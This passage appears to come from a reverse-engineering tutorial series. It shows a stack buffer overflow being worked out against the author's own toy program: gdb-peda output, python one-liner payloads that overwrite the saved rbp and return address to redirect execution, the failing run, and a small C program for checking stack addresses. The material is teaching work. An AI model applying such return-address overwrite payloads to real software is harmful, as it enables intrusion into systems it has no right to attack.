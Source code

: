             Breakpoint 1, 0x00000000004005a3 in main ()
            gdb-peda$
        

*   At this point, the StackFrame is just constructed. Let us look at the **rbp** register and get **main** function's rbp value. It is **0x7fffffffd8d0**. So, this is done. Let us exit from gdb and craft the right payload.

1.  Old Payload: (For reference)
    
        python -c "print 'a' * 16 + 'b' * 8 + '\x66\x05\x40\x00\x00\x00\x00\x00' + '\xb7\x05\x40\x00\x00\x00\x00\x00'"
        

2.  New Payload:

*   Instead of **bbbbbbbb** , we want to put the value **0x7fffffffd8d0**.

*   Look at this:
    
        python -c "print 'a' * 16 + '\xd0\xd8\xff\xff\xff\x7f\x00\x00' + '\x66\x05\x40\x00\x00\x00\x00\x00' + '\xb7\x05\x40\x00\x00\x00\x00\x00'"
        

*   Again, keep in mind the endian-ness.

1.  Execute with new payload:
    
        ~/rev_eng_series/post_8$ python -c "print 'a' * 16 + '\xd0\xd8\xff\xff\xff\x7f\x00\x00' + '\x66\x05\x40\x00\x00\x00\x00\x00' + '\xb7\x05\x40\x00\x00\x00\x00\x00'" | ./code1Before vuln_func: In main function
        aaaaaaaaaaaaaaaa�����
        In exploit_func
        After vuln_func: In main function
        Segmentation fault (core dumped)
        adwi@adwi:~/rev_eng_series/post_8$
        

*   Oh Damn! This was not expected.

*   So, again. Are we not taking care of everything?

### Are we taking are of everything?

1.  Let us write a small program to confirm this:
    
        ~/rev_eng_series/post_8$ cat code2.c
        #include<stdio.h>
        int main() {
        
                int a = 10;
                printf("Address of a = %p\n", &a);
                return 0;
        }
        ~/rev_eng_series/post_8$ gcc code2.c -o code2
        

*   It is a simple program. It initializes a variable **a** and prints it's address. 

1.  Let us execute it:
    
